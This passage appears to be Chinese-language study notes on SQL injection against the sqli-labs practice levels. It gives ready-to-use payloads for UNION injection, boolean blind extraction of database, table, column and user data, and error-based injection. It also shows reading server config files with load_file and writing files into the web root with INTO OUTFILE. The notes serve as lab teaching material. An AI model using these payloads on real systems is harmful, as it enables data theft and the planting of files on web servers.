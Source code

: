     - 将所有的MYSQL用户的file权限全部开启了，
    - flush privileges;
    - 然后刷新一下权限即可。
  - 使用例子：
    - 直接将 select 内容导入到文件中：
    - Select version() into outfile '/var/www/html/1.txt';
    - 提到了 load_file(),但是当前台无法导出数据的时候，我们可以利用下面的语句：
    - select load_file(‘c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini’)into outfile‘c:\\wamp\\www\\test.php’
    - 可以利用该语句将服务器当中的内容导入到 web 服务器下的目录，这样就可以得到数据了。


### 注入题目源码

#### 基础知识（Less1-4）：

```
- SELECT * FROM users WHERE id='$id' LIMIT 0,1
  - ?id=-1' UNION SELECT 1,2,database();-- 
- SELECT * FROM users WHERE id=$id LIMIT 0,1
  - ?id=-1 UNION SELECT 1,2,database();--
- SELECT * FROM users WHERE id=('$id') LIMIT 0,1
  - ?id=-1') UNION SELECT 1,2,database();--
- SELECT * FROM users WHERE id=(“$id”) LIMIT 0,1
  - ?id=-1") UNION SELECT 1,2,database();--
```

#### 盲注（Less5-6）：

```
- if($row)	{	echo 'You are in...........';	} SQL语句正确，会输出这句话，并不报显位，即不在前端输出SQL查询的内容；SELECT * FROM users WHERE id='$id' LIMIT 0,1;
  1. 布尔盲注：
     - ?id=1' and left(version(),1)=5-- 用php版本第一个字符是5来判断是否是盲注；
     - 获取`库名`：
     - ?id=1' and length(database())=8-- 判断下数据库名的字符长度，以便编写payload；
     - ?id=1' and left(database(),1)>'a'-- 判断数据库名第一位是否比a大，这里库名security，s肯定大于a，则会返回那句话；逐个判断来确定第一位字符，可采用二分法提高速率，或者直接采用等于的逻辑，只有正确的时候返回一句话；
     - ?id=1' and left(database(),2)>'se'-- 逐个判断，即可获得库名security；
     - 获取`表名`：
     - ?id=1' and ascii(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1))=101-- 取第一个表第一个字符来进行ascii判断，步骤同上，只需改substr第二个的参数以及ascii码判断即可，也可用二分法；其实直接可以省去获得数据库名字的一步，因为这里database()直接获取的就是当前数据库；获取表名email；
     - ?id=1' and ascii(substr((select table\_name from information_schema.tables where table\_schema=database() limit 1,1),1,1))=114-- 获取第二个表，只需要改limit的第一个参数（取第二个表）即可；
     - 获取`列名`：
     - ?id=1' and 1=(select 1 from information\_schema.columns where table\_name='users' and column\_name regexp '^u[a-z]' limit 0,1)-- 利用 regexp 获取 users 表中的列，这句话验证 users 表中的列名是否有 u\*\*的列；修改regexp的'^u[a-z]'来逐步判断，得出列名；
     - ?id=1' and 1=(select 1 from information\_schema.columns where table\_name='users' and column\_name regexp '^username$' limit 0,1)-- 可以看username 字段是否存在；判断其他字段名，直接修改regexp参数即可；
     - 获取`内容`：
     - ?id=1' and ord(mid((select ifnull(cast(username as char),0x20)from security.users order by id limit 0,1),1,1))= 68-- 利用 ord（）和 mid（）函数获取 users 表的内容，获取 username 中的第一行的第一个字符的 ascii，与 68 进行比较，即为 D；0x20为空格的hex；
     - 以上利用语法互通，只是方法名不一样但作用类似；
     - CAST (expression AS data\_type) ：expression：任何有效的SQL表达式。AS：用于分隔两个参数，在AS之前的是要处理的数据，在AS之后是要转换的数据类型。data\_type：目标系统所提供的数据类型，包括bigint和sql\_variant，不能使用用户定义的数据类型。
     - IFNULL(expr1,expr2) ：如果 expr1 不是 NULL，IFNULL() 返回 expr1，否则它返回expr2。
     - ORDER BY 语句用于根据指定的列对结果集进行排序（默认按照升序）；DESC 逆序（ORDER BY xx DESC）。以此来说明order by不只是判断字段数，还有排序的作用；
  2. 报错注入：
     - ?id=1' union select 1,count(\*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)\*2)) a from information\_schema.columns group by a--
     - ?id=1' union select 1,2,count(\*) from information\_schema.tables group by concat(0x3a,0x3a,version(),0x3a,0x3a,floor(rand(0)\*2))--
```